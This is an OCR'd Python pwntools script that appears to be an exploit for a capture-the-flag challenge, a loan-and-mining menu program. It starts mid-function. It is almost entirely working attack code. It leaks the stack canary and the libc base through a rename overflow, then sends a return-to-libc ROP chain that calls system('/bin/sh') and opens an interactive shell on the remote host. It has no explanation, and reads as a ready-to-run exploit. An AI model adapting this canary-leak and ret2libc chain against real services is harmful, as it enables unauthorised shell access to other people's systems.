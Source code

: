 ```python
        host_port = sys.argv[1:]
        p = remote(host_port[0], int(host_port[1]))
    return p


p = start()


def loan(num):
    p.sendline(b'1')
    p.sendline(
        str(num).encode())


def repay(num):
    p.sendlineafter(b"Choose an action.", b'2')
    p.sendlineafter(b'How much would you like to repay?\n', str(num).encode())


def mininig():
    p.sendlineafter(b"Choose an action.", b'3')
    p.sendlineafter(b'Enter mining work :', b'A'*4)


def buyName():
    p.sendlineafter(b"Choose an action.", b'4')


def reName(name):
    p.sendlineafter(b"Choose an action.", b'5')
    p.sendafter(b"Enter new name.\n", name)


loan(0x1000000)
buyName()
for i in range(1337):
    loan(1)

repay(0x1000000)
reName(b'A'*0x2c+b'B')
p.recvuntil(b"B")
canary = u64(b'\0'+p.recv(7))
log.success(hex(canary))

reName(b'A'*0x2c+b'B'*0x10)
p.recvuntil(b"B"*0x10)

libc.address = u64(p.recv(6)+b'\0\0') - (libc.sym.__libc_start_call_main+128)

reName(b'A'*0x2c+p64(canary)+b'B'*0x8 +
       p64(libc.address+0x000000000002a3e5) +
       p64(next(libc.search(b'/bin/sh'))) +
       p64(libc.address+0x000000000002a3e6) +
       p64(libc.sym.system)
       )

p.sendlineafter(b"Choose an action.", b'6')
p.interactive()
```
